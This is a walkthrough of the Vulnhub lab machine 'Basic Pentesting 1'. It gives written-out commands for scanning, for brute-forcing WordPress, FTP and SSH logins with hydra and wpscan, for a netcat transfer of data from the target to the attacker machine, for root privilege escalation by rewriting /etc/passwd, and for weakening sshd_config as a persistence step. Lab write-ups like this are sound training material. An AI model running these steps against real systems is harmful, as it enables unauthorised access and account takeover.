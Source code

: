 *2021-08-22*

*kimm3*

# Walkthrough: Basic Pentesting 1
Platform: Vulnhub

Difficulty: (Very) Easy

- [Vulnhub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Setup
I use my kali machine as dhcp-server on a virtual box internal network, where I connect the target machine.

![dhcplease](assets/markdown-img-paste-20210822101957254.png)
## Scans and enumeration
```
export IP=192.168.10.2
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```

![init-scan](assets/markdown-img-paste-20210822102150590.png)

1. It's a linux machine, Ubuntu
2. Three services to enumerate: fpt, ssh and http.

### HTTP
Index-page

![index](assets/markdown-img-paste-20210822102423845.png)

`ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -o fuzz/indexdir -of md`

![ffuff-indexdir](assets/markdown-img-paste-20210822102627138.png)

![secret](assets/markdown-img-paste-20210822102926697.png)

Appears to be a wordpress site. Any links points to hostname 'vtcsec'. Add to `/etc/hosts` to make it surfable.

![wp-login-admin](assets/markdown-img-paste-20210822103128901.png)

It works and we gain access to the wp-login site, the user admin exists, but we don't have the password.

Before trying to brute-force it, I went on to check out the [ftp service.](#ftp)

### FTP
![init-ftp](assets/markdown-img-paste-20210822103407270.png)

Anonymous login not possible.

![proftpd-searchsploit](assets/markdown-img-paste-20210822103605509.png)

The version used is vurnelable to backdoor command execution and there's a metasploit module for it, [more info](https://www.exploit-db.com/exploits/15662).

### SSH
It's possible to enumerate usernames for the ssh service [with this.](https://www.exploit-db.com/exploits/40136)


## Exploits
I found three ways to get root:
1. FTP backdoor
2. wp-login console and manipulating `/etc/passwd`
3. Or via wp-login and user marlinspike, weak password

## Exploit 1
The FTP backdoor looks most promising, lets start there.

![msf-root](assets/markdown-img-paste-20210822105223322.png)

Well thats easy.

## Exploit 2
**step 1**

Brute-forcing wp-login.php.

First of, the password is the default install password, so we really don't need to brute force it. If we do, the choice of wordlist makes a big difference in time. The 'rockyou.txt' works, but the password is at 19k line something. Metasploit has a 'http_default_pass.txt', search for it in your `/usr/share` folder.

### Using hydra
Take the http-post-form payload from your browser to not mess things up.

```hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt vtcsec http-post-form "/secret/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1:F=<title>Log In"```

![hydra-wplogin](assets/markdown-img-paste-20210822123444436.png)
### Using wpscan
The safe option, considering you don't have to write out the payload.

```wpscan --password-attack wp-login -U admin --url http://vtcsec/secret/ -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt ```

![wpscan-wplogin](assets/markdown-img-paste-20210822123523335.png)

**step 2**

Using metasploit to gain meterpreter.

![msf-wpadmin](assets/markdown-img-paste-2021082212410613.png)


**step 3.1**

Privilege escalation via `/etc/passwd`

![uploadprivesc](assets/markdown-img-paste-20210822124607519.png)

Run a privesc check, send the result to your machine for easier reading.
```
chmod u+x unix-privesc-check
./unix-privesc-check standard > output.txt

(nc -l -p 1234 > output.txt) # on receiver

nc -w 3 192.168.10.1 1234 < output.txt
```

Going through the file, look for 'WARNING:'.

![etc/passwd](assets/markdown-img-paste-20210822125417979.png)

`/etc/passwd` seems to be writeable by everyone. If a password hash is present in `/etc/passwd`(second column) it will take precedence over `/etc/shadow` file.

Generate a new hash for root with `openssl passwd -1 "adminpassword"`.

Send the file over and use `su`.

![root](assets/markdown-img-paste-20210822132906383.png)

**step 3.2**

Privilege escalation via user marlinspike.

We can see in the home folder or the `/etc/passwd` that there's a user called marlinspike.

Let's generate some passwords and try to log in via SSH.

![cuppy](assets/markdown-img-paste-20210822134938266.png)

If we don't have access to the password hash, we can try to brute-force one of the services to find the password.

`hydra -l marlinspike -P marlin.txt ftp://vtcsec`

![ftp-success](assets/markdown-img-paste-20210822135541951.png)

![ftp-dir](assets/markdown-img-paste-20210822135654832.png)

The share is in the users home folder.

`hydra -l marlinspike -P marlin.txt ssh://vtcsec -t 4`

![ssh-success](assets/markdown-img-paste-2021082213572908.png)

![ssh-to-root](assets/markdown-img-paste-20210822135851675.png)

The user has full sudo privs.

## Post Exploitation
The sshd_config does not permit ssh login for root with password. Change the 'prohibit-password' to 'yes' and our new password will work.

![sshd-config](assets/markdown-img-paste-20210822133950300.png)

![ssh-login-root](assets/markdown-img-paste-20210822134009219.png)
